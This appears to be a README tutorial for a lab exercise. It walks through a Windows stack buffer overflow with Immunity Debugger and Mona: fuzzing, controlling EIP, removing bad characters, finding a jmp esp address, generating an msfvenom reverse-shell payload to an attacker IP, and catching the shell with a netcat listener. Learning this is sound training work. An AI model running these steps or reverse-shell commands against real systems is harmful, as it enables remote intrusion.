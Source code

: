# Buffer Overflow

[1. Fuzz the Application](#fuzz-the-application)
  
[2. Replicating the Crash and Controlling EIP](#replicating-the-crash-and-controlling-eip)

[3. Find Bad Characters](#finding-bad-characters)

[4. Find the Jump Point](#find-the-jump-point) 

[5. Generate the Payload](#generate-the-payload)

[6. Exploit](#exploit)

Set a working directory for Mona from teh Immunity Debugger. Run the following command from the command line in Immunity Debugger

<code>!mona config -set workingfolder c:\mona\%p</code>

![alt-text](src/Mona_Command.png)

## Fuzz the Application

Launch Immunity Debugger as Administrator, and use the "File -> Open" command to bring up the vulnerable application. Notice that this does not run the aplication, it still needs to be executed.  

![alt-text](src/Paused_State.png)

Click the red play button at the top of the window to execute the file

![alt-text](src/Running_State.png)

Use the program located [here](fuzzer.py) to fuzz the application. It will send strings to the application incrementing by 500 characters each time until the app crashes or it reaches a string of length 3000.

<code>python fuzzer.py</code>

![alt-text](src/Fuzzing.png)

Make note of when the script stops/the application crashes and the length of the string that caused the crash.

## Replicating the Crash and Controlling EIP

Use the program located [here](exploit.py) (This is the base script, we will modify it as needed with the information we acquire during the assessment of the application)

Note: that the prefix variable will need to be changed to account for whatever initial option the applications takes.

We then need to generate a string of the length of the string that crashed the application + 400. In our case, the application crashed after the 2000 string, so we will generate our string to be size 2400

<code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400</code>

![alt-text](src/Byte_Array.png)

Copy this output to the "payload" field in the exploit.py script

Restart the application in the Immunity Debugger and run the exploit.py script.

<code>python exploit.py</code>

The app should crash again, run the following command in Immunity Debugger:

<code>!mona findmsp -distance 2400</code>

Note that we use the same length as the pattern we created earlier.

Mona will display a window with some output in the form of:

> EIP contains normal pattern: ... (offset XXXX)

We will then need to update our exploit.py script and set the offset varialbe to the value of the offset. 

Set the retn variable to "BBBB"

Restart the application in Immunity Debugger and rerun the exploit.py script.

We should see the EIP register is now 42424242 (BBBB)

## Finding Bad Characters

We will generate a bytearray with Mona (Excluding the "\x00" character). Run the following command in Imunity Debugger

<code>!mona bytearray -b "\x00"</code>

Then, generate a string of bad characters that is identical to the bytearray. Use the python code [here](byte_array.py).

Update the payload variable in the exploit.py file with the byte array generated from the python code.

Restart the application and run the exploit.py script again.

Use the following command to print the differences between the bytearray and the values in memory

<code>!mona compare -f C:\path\to\array\bytearray.bin -a [ESP ADDRESS]</code>

Note: Not every character in the output will be a bad character, we will remove them from the generated bytearray one at a time.

<code>!mona bytearray -b "\x00\xXX\xXX"</code>

Remove these same characters from the payload in exploit.py

Restart the application and rerun the exploit.py file until Mona returns "Unmodified", this lets us know there are no bad characters left.

Note: Keep a file of these bad characters, you will need them to find the jump point.

## Find the Jump Point

While the application is crashed or running run the following Mona command in Immunity Debugger with the list of bad caracters found in the previous steps

<code>!mona jmp -r esp -cpb "\x00\xXX\xXX"</code>

This should bring up a window that will have several addresses to several "jmp esp" memory locations.

Pick an address and update the retn variable in the exploit.py file. 

Note: Keep in mind the architecture of the host. If the host is running in little endian, then the address needs to be written backwards (i.e. if the address is 123456 then the little endian address would be 654321). Convert the address to HEX by adding a "\x" before every two characters (i.e. if the address is 123456 then the HEX version would be \x12\x34\x56). If we are running in little endian then the final address would be "\x56\x34\x12".

## Generate the Payload

Use <code>msfvenom</code> to generate shellcode.

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=443 EXITFUNC=thread -b "[BAD_CHARACTERS]" -f py</code>

Copy the output to the payload variable in the exploit.py file

Note: The msfvenom command outputs the shellcode under the name buf = "...", make sure to change the name to payload before executing the script.

Add some space to allow the shellcode to unpack by setting the padding variable to:

<code>padding = "\x90" * 16</code> 

## Exploit

Setup a netcat listener 

<code>nc -lnvp 443</code>

Restart the application and run exploit.py, and we should catch a shell.
